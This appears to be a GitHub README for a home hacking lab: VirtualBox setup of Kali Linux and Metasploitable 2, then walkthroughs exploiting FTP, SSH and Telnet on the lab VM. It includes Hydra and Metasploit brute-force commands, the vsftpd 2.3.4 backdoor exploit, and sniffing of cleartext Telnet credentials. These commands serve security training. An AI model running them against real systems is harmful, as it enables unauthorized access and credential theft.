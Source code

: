 Home Hacking Lab Project
Description:
This project consisted of setting up a comprehensive home penetration testing lab using VirtualBox. The lab includes virtual machines such as Kali Linux, Metasploitable 2, and DC1 from VulnHub. The primary objective is to practice and enhance cybersecurity skills through hands-on exercises in vulnerability scanning, exploitation, and post-exploitation techniques.

Apps, Languages, & Utilities Used:

Virtualization Software: VirtualBox
Operating Systems: Kali Linux, Metasploitable 2, DC1 VulnHub machine
Security Tools: Metasploit, nmap, Hydra, Wireshark
Scripting: Bash
Environments Used:

Kali Linux: Attacker Machine
Metasploitable 2: Vulnerable Linux VM
DC1 VulnHub Machine: Vulnerable VM
Testing Tools:

Hydra: Used for brute-force attacks
Metasploit: Used for various exploits and vulnerabilities
Wireshark: Used for network traffic analysis
Objective:
The objective of the lab is to provide a hands-on learning experience in setting up a virtualized environment for cybersecurity testing and exploration. By installing and configuring multiple virtual machines (VMs) including Kali Linux, Metasploitable 2, and DC1 from VulnHub, the lab aims to teach skills such as network configuration, vulnerability scanning, service exploitation, and post-exploitation analysis. This lab setup helps in understanding how attackers compromise systems and how to detect and mitigate such attacks.

Skills Learned:

Setting up VMs (Kali Linux, Metasploitable 2, DC1) in Oracle VM VirtualBox.
Configuring IP addresses, NAT Networks for VMs.
Performing vulnerability scanning using nmap.
Exploiting services (FTP, SSH, Telnet) using Metasploit.
Brute-forcing login credentials using Hydra.
Capturing and analyzing network traffic using Wireshark.
Performing privilege escalation and capturing flags on vulnerable machines.
Documenting and reporting exploitation techniques.


Part 1: How To Install VirtualBox On Windows 11
Objective: Install VirtualBox on Windows 11 for creating and managing virtual machines.

Download VirtualBox:

Open a web browser and navigate to the Oracle VirtualBox download page.
Select the Windows installer and download the file.
Install VirtualBox:

Locate the downloaded installer and double-click to start the installation.
Follow the prompts, accepting defaults, and acknowledging any warnings about network interfaces.
Complete the installation but do not start VirtualBox immediately.
Download and Install Extension Pack:

Download the Extension Pack from the same VirtualBox download page.
Install the Extension Pack by double-clicking the downloaded file and following the prompts.
Part 2: How to Install Kali Linux 2022.4 in VirtualBox
Objective: Download and install Kali Linux 2022.4 as a virtual machine in VirtualBox.

Download Kali Linux VM:

Open a web browser and navigate to the Kali Linux download page.
Select the VirtualBox image and download the file.
Extract the Downloaded File:

Extract the contents of the downloaded file to a preferred location on your computer.
Import the Kali Linux VM into VirtualBox:

Open VirtualBox.
Go to File > Import Appliance and select the extracted Kali Linux file.
Follow the prompts to complete the import.
Configure the Kali Linux VM:

Adjust settings such as memory (4GB recommended), processors (2 CPUs), and network adapter (NAT Network).
Verify Network Configuration:

Start the Kali Linux VM and log in.
Open a terminal and run ifconfig to check the IP address.
Ensure the VM has internet connectivity by pinging a website.
Part 3: How to Install PimpMyKali in Kali Linux
Objective: Enhance the Kali Linux setup using the PimpMyKali script to optimize and fix issues.

Download PimpMyKali Script:

Open a web browser and navigate to the PimpMyKali GitHub repository.
Copy the repository URL for cloning.
Clone the Repository:

Open a terminal in Kali Linux and switch to the root user.
Create a directory for tools and clone the repository:
bash
Copy code
sudo su
mkdir /root/tools
cd /root/tools
git clone https://github.com/Dewalt-arch/pimpmykali.git
Run the PimpMyKali Script:

Navigate into the cloned directory and make the script executable:
bash
Copy code
cd pimpmykali
chmod +x pimpmykali.sh
./pimpmykali.sh
Follow the prompts, selecting options such as new VM setup and enabling root login if desired.
Complete the setup and reboot the system.
Part 4: How To Install Metasploitable 2 in VirtualBox
Objective: Install Metasploitable 2, a deliberately vulnerable Linux VM, in VirtualBox.

Download Metasploitable 2:

Open a web browser and navigate to SourceForge.
Download the Metasploitable 2 zip file and extract its contents.
Create a New Virtual Machine in VirtualBox:

Open VirtualBox and create a new VM named MS2 for Metasploitable 2.
Set the type to Linux and version to Other Linux (64-bit).
Use an existing virtual hard disk file and select the extracted Metasploitable 2 VMDK file.
Configure Network Settings:

Adjust the network adapter to NAT Network and select the appropriate network.
Start the Metasploitable 2 VM:

Boot up the VM and log in using the default credentials (msfadmin / msfadmin).
Part 5: How To Hack and Exploit Port 21 FTP on Metasploitable 2
Objective: Exploit the FTP service on Metasploitable 2 to gain unauthorized access.

Scan for Open Ports and Services:

Use nmap to identify open ports and services on Metasploitable 2:
bash
Copy code
nmap -p- -sV -oN ms2.txt 10.0.200.5
Create User and Password Lists:

Create files with potential usernames and passwords:
bash
Copy code
nano users.txt
msfadmin
service
user
guest
nano passwords.txt
msfadmin
service
user
guest
Brute Force FTP Credentials Using Hydra:

Use Hydra to perform a brute force attack on the FTP service:
bash
Copy code
hydra -L users.txt -P passwords.txt ftp://10.0.200.5
Exploit FTP Vulnerability Using Metasploit:

Use Metasploit to exploit the vsftpd 2.3.4 vulnerability:
bash
Copy code
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.200.5
exploit
Part 6: How To Hack and Exploit Port 22 SSH on Metasploitable 2
Objective: Exploit the SSH service on Metasploitable 2 to gain unauthorized access.

Discover Metasploitable 2 IP Address:

Identify the IP address using netdiscover:
bash
Copy code
netdiscover -r 10.0.200.0/24
Scan for Open Ports and Services:

Use nmap to scan for SSH service:
bash
Copy code
nmap -p- -sV -oN ms2.txt 10.0.200.5
Create User and Password Lists:

Create files with potential usernames and passwords:
bash
Copy code
nano users.txt
msfadmin
service
user
guest
nano passwords.txt
msfadmin
service
user
guest
Brute Force SSH Credentials Using Metasploit:

Use Metasploit to perform a brute force attack on SSH:
bash
Copy code
msfconsole
search ssh_login
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.0.200.5
set USER_FILE /root/users.txt
set PASS_FILE /root/passwords.txt
set STOP_ON_SUCCESS true
exploit
Verify Access and Interact with the Session:

Interact with the session opened by Metasploit:
bash
Copy code
sessions -i 1
sysinfo
Part 7: How To Hack and Exploit Port 23 Telnet on Metasploitable 2
Objective: Exploit the Telnet service on Metasploitable 2 to capture and analyze network traffic.

Discover Metasploitable 2 IP Address:

Identify the IP address using netdiscover:
bash
Copy code
netdiscover -r 10.0.200.0/24
Scan for Open Ports and Services:

Use nmap to scan for Telnet service:
bash
Copy code
nmap -p- -sV -oN ms2.txt 10.0.200.5
Capture Telnet Traffic Using Wireshark:

Open Wireshark and start capturing traffic on the network interface connected to Metasploitable 2.
Generate Telnet traffic by logging into Metasploitable 2:
bash
Copy code
telnet 10.0.200.5
msfadmin
msfadmin
Stop the capture and analyze the traffic to find cleartext credentials.
Exploit Telnet Using Metasploit:

Use Metasploit to exploit the Telnet service:
bash
Copy code
msfconsole
search telnet_login
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 10.0.200.5
set USERNAME msfadmin
set PASSWORD msfadmin
exploit
Verify Access and Interact with the Session:

Interact with the session opened by Metasploit:
bash
Copy code
sessions -i 1
sysinfo
